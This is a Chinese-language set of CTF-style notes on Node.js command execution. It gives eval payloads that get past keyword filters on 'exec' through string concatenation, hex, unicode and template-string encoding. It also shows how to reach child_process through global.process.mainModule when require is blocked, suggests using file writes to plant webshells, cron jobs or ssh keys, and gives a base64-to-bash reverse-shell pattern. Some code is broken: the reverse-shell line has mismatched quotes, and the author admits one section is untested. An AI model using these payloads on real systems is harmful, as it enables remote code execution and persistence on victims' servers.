


## 关于child_process

`nodejs`基于事件驱动来处理并发，本身是单线程模式运行的。`Nodejs`通过使用`child_process`模块来生成多个子进程来处理其他事物。

在`child_process`中有七个方法它们分别为：`execFileSync`、`spawnSync`,`execSync`、`fork`、`exec`、`execFile`、以及`spawn`,而这些方法使用到的都是`spawn()`方法。

在`Nodejs`中，`nodejs`通过使用`child_process`模块来生成多个子进程来处理其他事物就包括4个异步进程函数分别为`spawn`,`exec`,`execFile`,`fork`和3个同步进程函数`spawnSync`,`execFileSync`,`execSync`。

## 关于nodejs的命令执行

对于`nodejs`我们尝试用`require`来开启子进程进行命令执行。

假设题目需要绕过一些敏感字符，如`exec`，所以我们有多种方法即字符串拼接或者字符串的编码转换，在`nodejs`当中，对于十六进制编码与`unicode`编码都是适应的。

```
所以原先的：eval=require("child_process").execSync('cat fl001g.txt')

可以转变为：eval=require("child_process")['exe'%2b'cSync']('cat fl001g.txt')

或者是：eval=require("child_process")["\x65\x78\x65\x63\x53\x79\x6e\x63"]('cat fl001g.txt')

以及unicode编码:eval=require("child_process")["\u0065\u0078\u0065\u0063\u0053\x79\x6e\x63"]('cat fl001g.txt')
包括模板字符串：`eval=require(%22child_process%22)[`${`${`exe`}cSync`}`](%27ls%27)`。
```




## 文件读写

文件读取可以直接使用fs模块

### 查看文件

`Node.js` 文件系统（`fs` 模块）模块中的方法均有异步和同步版本，例如读取文件内容的函数有异步的 `fs.readFile()` 和同步的 `fs.readFileSync()`。



### 查看目录

```javascript
fs.readdir(path,callback)
```


### 写文件

```javascript
fs.writeFileSync('filename','content')
```


可以利用写文件来写webshell,计划任务,ssh等

## 关于nodejs中spawn与exec的区别

异步函数`spawn`是最基本的创建子进程的函数，其他三个异步函数都是对`spawn`不同程度的封装，即`exec`，`execfile`,`fork`。

所以他们的区别就是`spawn`只能运行指定的程序，参数需要在列表中给出，而`exec`可以直接运行复杂的命令。

要运行`du -sh /disk1`命令， 使用`spawn`函数需要写成`spawn('du', [''-sh ', '/disk1'])`，而使用exec函数时，可以直接写成`exec('du -sh /disk1')`。

## 当require被禁用时(目前本地还没测试成功)

我们可以使用`通过global全局对象加载模块`来调用子进程。

```javascript
global.process.mainModule.constructor._load('child_process').exec('ls');
```

利用`Function`进行执行：

```javascript
Function("global.process.mainModule.constructor._load('child_process').exec('ls')")();
```

利用`setInterval`进行命令执行：

```javascript
setInteval(function, 2000)  #即间隔两秒
```

利用`setTimeout`进行命令执行：

```javascript
setTimeout(function, 2000)  #即两秒后执行
```

## 关于反弹shell

在`nodejs`当中与`java`有些类似，反弹`shell`需要进行一些额外的编码解码才能够规避掉一些敏感词，例如`+`号

```javascript
shell反弹：
code=require('child_process').exec('cmd'|base64 -d|bash');
```